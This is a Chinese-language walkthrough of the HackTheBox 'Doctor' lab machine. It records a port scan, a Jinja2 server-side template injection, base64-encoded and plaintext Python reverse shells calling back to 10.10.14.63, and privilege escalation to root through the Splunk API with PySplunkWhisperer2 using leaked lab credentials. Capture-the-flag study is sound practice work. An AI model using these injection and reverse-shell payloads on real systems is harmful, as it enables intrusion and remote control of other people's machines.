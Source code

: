 # 记录

目标：10.10.10.209



## 端口扫描

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd

commonName=SplunkServerDefaultCert/organizationName=SplunkUser
```





## 80端口http服务渗透

资产

```
http://10.10.10.209/index.html
http://10.10.10.209/departments.html
http://10.10.10.209/about.html
http://10.10.10.209/blog.html
http://10.10.10.209/contact.html
感觉上面那几个一摸一样

```

存在目录浏览

Apache/2.4.41 (Ubuntu)



人员信息：Dr. Jade Guzman

Dr. Hannah Ford

Dr. James Wilson

电话：1-999-123-4567

邮箱：info@doctors.htb



看了wp发现将http的host头改为：`Host: doctors.htb`，就会进入一个新的站点

在注释中找到开发中的站点：`http://doctors.htb/archive`

Werkzeug/1.0.1 Python/3.8.2

发表一些文章后发现是显示标题的地方，存在ssti漏洞

```
{{config.__class__.__mro__[2].__subclasses__()[318].__init__.__getattribute__("__globals__")["os"].system(request.args.exp)}}

http://doctors.htb/archive?exp=python3%20-c%20%27import%20base64;exec(base64.b64decode(%22aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjYzIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vYmFzaCIsIi1pIl0pOw==%22))%27
```



```
import os


class Config:
    SECRET_KEY = os.environ.get('SECRET_KEY')
    WTF_CSRF_CHECK_DEFAULT = False
    SQLALCHEMY_DATABASE_URI = os.environ.get('SQLALCHEMY_DATABASE_URI')
    MAIL_SERVER = ''
    MAIL_PORT = 587
    MAIL_USE_TLS = True
    MAIL_USERNAME = "doctor"
    MAIL_PASSWORD = "doctor"

```



splunkd -p 8089 start

打穿splunkd 就可以拿到root权限



pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)

在查看apache的日志时发现：

![image-20201106234828739](https://raw.githubusercontent.com/Explorersss/photo/master/20201106234828.png)

user_flag:856293e0074517cb670a14f80cf77ceb







## 8089端口https服务

**Splunk build:** 8.0.5

爆破一波密码无果

用shaun的账号密码试了一下登入成功！！！！

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.63",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```



百度一下splunk api rce找到https://github.com/burntoberoot/splunk_pentest_cheatsheet

```
python3 PySplunkWhisperer2_remote.py --scheme https --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --payload='python3 /tmp/exp.py' --lhost=10.10.14.63
```



ROOOOOOOOOT



![image-20201107021528945](https://raw.githubusercontent.com/Explorersss/photo/master/20201107021529.png)